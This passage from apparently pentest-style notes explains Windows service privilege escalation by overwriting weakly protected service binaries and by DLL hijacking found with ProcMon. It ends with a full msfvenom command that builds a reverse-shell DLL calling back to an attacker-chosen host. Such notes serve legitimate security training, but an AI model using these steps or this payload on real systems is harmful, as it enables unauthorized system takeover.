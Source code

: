 Your binary should get executed.


## Insecure Service Executable permissions

Another possibility is that the binary that is set as binpath in the service config is not sufficiently protected. I.e. you might be able to just overwrite the binary at the original location, without having to edit the service in any way.

It is a good idea to make a backup of the original service binary.

Start the service and you are gold.


## DLL Hijacking

Detecting this vulnerabilty takes manual work. Only bother checking services that you can start and stop. And obviously only check services with higher privileges (e.g. LocalSystem)

Windows will check the PATH for DLLs (libraries). If a service uses a DLL which is missing, then we might be able to inject our own DLL instead, by writing to a location included on the PATH. For example if the TEMP directory C:\Temp\ (%TEMP%) is included on the PATH, then we might have an easy game, since %TEMP% tends to be world writable.

You will need to copy the service binary to a machine you control for analysis.


### Figure out used dlls

Use sysinternals ProcMon (procmon64.exe) on a Windows machine you control. Clear the output and create a filter "Process Name" - "is" - "thecopiedservice.exe"

Deselect "Show Registry activity" and "Show Network Activity". 

Start the capture.

If you are on a different machine, then recreate the service with the copied binary.

Start the service with:

```default
net start dllsvc
```

In ProcMon look at the "NAME NOT FOUND" errors.

They will show you which dll's are looked for and in which directories in order.

If you can insert your malicious dll in one of those locations that are checked before the correct location, then you have won.


Generate a dll reverse shell:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f dll -o hackedlib.dll
```

Place the dll with the correct filename in the correct location.
